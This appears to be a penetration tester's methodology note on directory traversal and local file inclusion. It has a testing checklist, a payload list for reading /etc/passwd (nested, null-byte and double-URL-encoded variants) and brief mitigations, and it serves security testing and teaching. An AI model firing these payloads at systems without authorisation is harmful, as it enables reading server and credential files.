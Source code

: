 ```yaml
---
title: "Directory Traversal"
layout: notes
tags:
  - webapp
  - methodology
  - directory-traversal
  - FI_api
  - FI_user-input
  - FI_file-upload
  - FI_image-upload
  - FI_parameters
  - FI_urls
  - Co_lfi
---
```

## Summary

Whenever an endpoint references a file with a parameter it is possible to inject path traversal to redirect to a different file. This can be from POSTed data in a request or a parameter from a GET request with a supplied parameter in the url. Finding ways to bypass filtering and achieve path traversal can lead to LFI and file uploading. 

## Methodology

When trying to achieve path traversal for files ask/try the following:
- [ ] **Are there any parameters which could be related to files?**
	- [ ] **Is there any indication what system this functionality exists on?**
		- [ ] remember to read files that are system relevant
		- [ ] an IIS web server won't have `/etc/passwd` and will use `..\`
- [ ] **Is this RESTful API?**
- [ ] look where images are processed
- [ ] try entering a URL with a file and observe behavior
- [ ] check the filter for special characters
	- [ ] try a basic traversal of `?file=../1.jpg` to induce an error
		- [ ] if returns original file try some more variants, if not continue
- [ ] try classic `../../etc/passwd`
	- [ ] try `..;` for Java apps
	- [ ] if nothing try replacing with `..\` for Windows
	- [ ] if no results attempt absolute reference `/etc/passwd`
	- [ ] if no results try nested `..././..././etc/passwd`
	- [ ] if no results try urlencoded
	- [ ] if no results try urlencoded x2
	- [ ] if no results try null byte negating extension
	- [ ] if no results try using an absolute accepted path then path traversal out 
		- [ ] `/var/www/images/../../../etc/passwd`
- [ ] once determined what restrictions exist on file reading enumerate to determine impact

## Capabilities

LFI

## Found In

APIs  
User Input  
File Upload  
Image Upload  
Parameters  
URLs  

## Tools/Examples

LFI
```
../../../../../etc/passwd
/etc/passwd
....//....//....//....//etc/passwd
..././..././..././..././etc/passwd
../../../../etc/passwd%00.jpg
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
/var/www/images/../../../etc/passwd
```

[https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#lfi2rce](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#lfi2rce)
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

#### Mitigation

Restricting user input to API calls resulting in file system access  
Set a web root directory to prevent allowing higher level directories  
Sanitize (recursively) user input for unwanted characters  
Use a whitelist to define what is allowed  
